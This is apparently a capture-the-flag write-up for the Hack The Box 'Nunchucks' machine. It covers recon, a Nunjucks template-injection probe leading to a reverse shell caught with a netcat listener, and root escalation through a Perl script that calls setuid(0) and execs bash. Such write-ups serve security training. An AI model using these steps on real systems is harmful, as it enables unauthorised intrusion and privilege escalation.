 # Nunchucks (Easy - Linux)

## Recon
```console
# nmap -Pn --open -sC -sV 10.10.11.122

PORT    STATE SERVICE  VERSION
22/tcp  open  ssh      OpenSSH 8.2p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 6c:14:6d:bb:74:59:c3:78:2e:48:f5:11:d8:5b:47:21 (RSA)
|   256 a2:f4:2c:42:74:65:a3:7c:26:dd:49:72:23:82:72:71 (ECDSA)
|_  256 e1:8d:44:e7:21:6d:7c:13:2f:ea:3b:83:58:aa:02:b3 (ED25519)
80/tcp  open  http     nginx 1.18.0 (Ubuntu)
|_http-server-header: nginx/1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to https://nunchucks.htb/
443/tcp open  ssl/http nginx 1.18.0 (Ubuntu)
|_http-server-header: nginx/1.18.0 (Ubuntu)
|_http-title: Nunchucks - Landing Page
| ssl-cert: Subject: commonName=nunchucks.htb/organizationName=Nunchucks-Certificates/stateOrProvinceName=Dorset/countryName=UK
| Subject Alternative Name: DNS:localhost, DNS:nunchucks.htb
| Not valid before: 2021-08-30T15:42:24
|_Not valid after:  2031-08-28T15:42:24
| tls-alpn: 
|_  http/1.1
| tls-nextprotoneg: 
|_  http/1.1
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

### Subdomain Enum
```console
# wfuzz -H "Host: FUZZ.nunchucks.htb" -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt --hh 30587 https://nunchucks.htb
```

Updating `/etc/hosts` file:
```
# HTB
10.10.11.122 nunchucks.htb store.nunchucks.htb
```

## Initial Access 
### Server-side Template Injection (NUNJUCKS)
`POST /api/submit` endpoint is vulnerable to SSTI. 

Request:
```json
{
    "email":"test@test{{7*7}}"
}
```

Response:
```json
{
    "response":"You will receive updates on the following email address: test@test49."
}
```

Exploit reference: http://disse.cting.org/2016/08/02/2016-08-02-sandbox-break-out-nunjucks-template-engine

Using `ssti_exploit.py`, we can get a reverse shell:

```console
# nc -lvnp 9001                    
listening on [any] 9001 ...
connect to [10.10.14.5] from (UNKNOWN) [10.10.11.122] 45644
/bin/sh: 0: can't access tty; job control turned off
$ id
uid=1000(david) gid=1000(david) groups=1000(david)
```

### user.txt
```console
$ cd /home/david
$ ls
user.txt
$ cat user.txt
853b**REDACTED**956e8
```

## Privilege Escalation
### david --> root

Finding an interesting backup script 
```console
david@nunchucks:/opt$ ls -la
ls -la
total 16
drwxr-xr-x  3 root root 4096 Oct 28 17:03 .
drwxr-xr-x 19 root root 4096 Oct 28 17:03 ..
-rwxr-xr-x  1 root root  838 Sep  1 12:53 backup.pl
drwxr-xr-x  2 root root 4096 Oct 28 17:03 web_backups
```

`backup.pl` is using `POSIX::setuid(0)` to run the script as `root`

```perl
#!/usr/bin/perl
use strict;
use POSIX qw(strftime);
use DBI;
use POSIX qw(setuid); 
POSIX::setuid(0); 

my $tmpdir        = "/tmp";
my $backup_main = '/var/www';
my $now = strftime("%Y-%m-%d-%s", localtime);
my $tmpbdir = "$tmpdir/backup_$now";

sub printlog
{
    print "[", strftime("%D %T", localtime), "] $_[0]\n";
}

sub archive
{
    printlog "Archiving...";
    system("/usr/bin/tar -zcf $tmpbdir/backup_$now.tar $backup_main/* 2>/dev/null");
    printlog "Backup complete in $tmpbdir/backup_$now.tar";
}

if ($> != 0) {
    die "You must run this script as root.\n";
}

printlog "Backup starts.";
mkdir($tmpbdir);
&archive;
printlog "Moving $tmpbdir/backup_$now to /opt/web_backups";
system("/usr/bin/mv $tmpbdir/backup_$now.tar /opt/web_backups/");
printlog "Removing temporary directory";
rmdir($tmpbdir);
printlog "Completed";
```

### exploit.pl
We can create the following exploit script and make it executable. 

```perl
#!/usr/bin/perl
use POSIX qw(strftime);
use POSIX qw(setuid);
POSIX::setuid(0);

exec "/bin/bash"
```

### root.txt

```console
david@nunchucks:/tmp$ ./exploit.pl
./exploit.pl
root@nunchucks:/tmp# id  
id
uid=0(root) gid=1000(david) groups=1000(david)
root@nunchucks:/tmp# cat /root/root.txt
cat /root/root.txt
66fb6**REDACTED**3c492
```